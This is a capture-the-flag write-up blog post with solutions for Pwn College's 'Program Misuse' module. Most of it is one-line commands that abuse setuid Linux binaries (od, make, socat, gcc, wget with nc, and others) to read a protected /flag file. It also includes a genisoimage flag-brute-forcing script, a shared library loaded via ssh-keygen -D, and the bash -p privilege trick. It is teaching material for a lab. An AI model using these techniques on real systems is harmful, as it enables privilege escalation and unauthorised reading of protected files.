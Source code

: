 ```yaml
---
layout: post
title:  "Pwn College - Program Misuse"
date:   2024-04-26 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Overview

This module deals with exploiting many different linux binaries, set as `suid`. \
It's pretty cool, as it teaches some non-trivial behaviors of binaries, which we usually won't take a look into. 

This page contains solutions for selected challenges. 


## Challenge 11

```bash
od -A n -x --endian=big /flag | xxd -p -r
```

## Challenge 12

```bash
hd /flag | xxd -p -r
```

## Challenge 17

```bash
gzip -c -d /flag.gz
```

## Challenge 19

```bash
zip -r /flag /flag
cat /flag.zip
```

## Challenge 23

`genisoimage ` - allows creating ISO9660 filesystem, and more. \
[genisoimage docs][genisoimage docs] 

According to docs, this binary is safe as suid. \
This is, of course, pure bs. 

I’ve wrote the following script that goes through all of the possible flags involving outer file interaction, as follow:

```python
import subprocess as sp
import mmap
import os

def check():
    try:
        with open('/home/hacker/itay_gen', 'rb', 0) as file, mmap.mmap(file.fileno(), 0, access=mmap.ACCESS_READ) as s:
            if s.find(b'pwn') != -1:
                return True
    except ValueError:
        print('Empty file')
        return False
    return False

os.dup2(1, 2)

with open('gen_flags', 'r') as f:
    data = f.readlines()
    for line in data:
        flag = line.split(' FILE')[0].strip().split()[0]
        print('Trying flag:', flag)
        cmd = '/usr/bin/genisoimage -input-charset utf-8 {} /flag -o /home/hacker/itay_gen /home/hacker/gen_test'.format(flag)
        p = sp.Popen(cmd, shell=True, stdin = sp.PIPE, stdout = sp.PIPE, close_fds = False)
        stdout, stderr = p.communicate()
        if check():
            break
```

I got many interesting results, such as segmentation fautls involving `-hppa-kernel-64`!

The interesting flag however is `-sort`, which simply gives the flag. 

## Challenge 26

```bash
make --eval=$'x:\n\t-'"cat /flag"
```

## Challenge 31

```bash
watch -x cat /flag
```

## Challenge 32

```bash
socat stdin EXEC:"cat /flag"
```

## Challenge 33

```bash
whiptail --textbox /flag 20 80
```

## Challenge 34

```bash
awk '//' /flag
```

## Challenge 36

```bash
ed
G/pwn*/
```

## Challenge 39

```bash
cp --no-preserve=mode /flag ~/flag
```

## Challenge 40

Same principle as: [windows-sticky-keys][windows-sticky-keys]. 

Move `/flag` to `/usr/bin/mv`, then execute it (can give it suid priviledges via activating the challenge once again).

## Challenge 43

[ruby-suid][ruby-suid]

## Challenge 44

Teaches a very important concept - execute `bash` with flag `-p`, for priviledges to NOT DROP!!

## Challenge 48

```bash
gcc -x c /flag
```

## Challenge 50

```bash
# Terminal 1
nc -lnvp 1337
# Terminal 2
wget --post-file=/flag 127.0.0.1:1337
```

`-i` input file doesn’t work - because URLs are given ONLY in lowercase letters, changing some letters of the flag.

## Challenge 51

This one is pretty cool. 

`ssh-keygen -D` allows loading a shared object file to the binary. \
Loaded `.so`:

```c
#include <stdio.h>
#include <sys/sendfile.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int C_GetFunctionList()
{
        int flag_fd = open("/flag", O_RDONLY);
        sendfile(1, flag_fd, 0, 100);
        puts("This is a shared lib!\n");
        return 0;
}

// OR:

__attribute__((constructor))
void run_first()
{
        puts("CTOR has been called!\n");
}
```

Recall `__attribute__((constructor))` runs prior to any function being called from the .so file. \
These attributes basicly adds pointer refernces to the function’s symbols within the `.ctors` and `.dtors` sections. \
The program runs `.ctors` upon .so load (which occurs during `dlopen()` at our challenge), and runs `.dtors` upon .so unload(during `dlclose()`). \
ctors and dtors are given with priorities of execution order, having values starting from `100`.

See more in [attribute-constructor][attribute-constructor]. 

`.init` and `.fini` sections are kind of old-school version of this. \
However, note that `.init` code runs before `.ctors` code! (and `.fini` runs after `.dtors`). \

We can activate them by the `-init` or `-fini` GCC flags, however they can only support a single function. 

See more in [elf-init][elf-init].

Now back to the challenge:

```bash
gcc -fpic -shared shared_lib.c -o shared_lib.so
ssh-keygen -D ./shared_lib.so
```

[genisoimage docs]: https://gtfobins.github.io/gtfobins/genisoimage/
[windows-sticky-keys]: https://scriptingis.life/2017-7-17-Sticky-Keys/
[ruby-suid]: https://www.ruby-forum.com/t/safe-0-for-setuid/186309/2
[attribute-constructor]: https://stackoverflow.com/questions/2053029/how-exactly-does-attribute-constructor-work
[elf-init]: https://www.flipcode.com/archives/Calling_A_Function_At_ELF_Shared_Library_Load_Time.shtml
